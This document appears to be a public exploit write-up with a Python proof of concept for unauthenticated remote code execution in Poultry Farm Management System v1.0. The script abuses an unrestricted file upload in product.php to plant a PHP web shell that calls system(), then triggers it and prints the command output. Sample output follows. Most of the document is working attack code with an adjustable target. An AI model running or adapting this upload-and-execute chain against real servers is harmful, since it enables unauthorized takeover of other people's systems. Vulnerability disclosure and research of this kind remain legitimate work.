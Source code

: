 # Exploit Title: Unauthenticated Remote Code Execution (RCE) - Poultry Farm Management System v1.0
# Date: 24-06-2024
# CVE: N/A (Awaiting ID to be assigned) 
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://www.sourcecodester.com/php/15230/poultry-farm-management-system-free-download.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip
# Category: Web Application
# Version: 1.0
# Tested on: Windows 10 | Xampp v3.3.0
# Vulnerable endpoint: http://localhost/farm/product.php

# Exploit Code:

```
import requests
from colorama import Fore, Style, init

# Initialize colorama
init(autoreset=True)

def upload_backdoor(target):
    upload_url = f"{target}/farm/product.php"
    shell_url = f"{target}/farm/assets/img/productimages/web-backdoor.php"

    # Prepare the payload
    payload = {
        'category': 'CHICKEN',
        'product': 'rce',
        'price': '100',
        'save': ''
    }

    # PHP code to be uploaded
    command = "hostname"
    data = f"<?php system('{command}');?>" 

    # Prepare the file data
    files = {
        'productimage': ('web-backdoor.php', data, 'application/x-php')
    }

    try:
        print("Sending POST request to:", upload_url)
        response = requests.post(upload_url, files=files, data=payload, verify=False)

        if response.status_code == 200:
            print("\nResponse status code:", response.status_code)
            print(f"Shell has been uploaded successfully: {shell_url}")

            # Make a GET request to the shell URL to execute the command
            shell_response = requests.get(shell_url, verify=False)
            print("Command output:", Fore.GREEN + shell_response.text.strip())
        else:
            print(f"Failed to upload shell. Status code: {response.status_code}")
            print("Response content:", response.text)
    except requests.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target = "http://localhost"  # Change this to your target
    upload_backdoor(target)

```

# Video Poc
```
Link - https://drive.google.com/file/d/1gOXhAjtUuIJHGz5SEpz3Tu50CEzoiDw_/view?usp=drive_link
```

# Output
> Execute - python3 exploit.py or python exploit.py
```
Sending POST request to: http://localhost/farm/product.php
Response status code: 200
Shell has been uploaded successfully: http://localhost/farm/assets/img/productimages/web-backdoor.php
Command output: DESKTOP-EGV8AH5
```

# References 
> To develop exploit code:
- https://github.com/0xConstant/Gym-Management-1.0-unauthenticated-RCE/blob/main/exploit.py
- https://github.com/h3x0crypt/PHPUnit-RCE/blob/master/PHPunit-RCE.php 
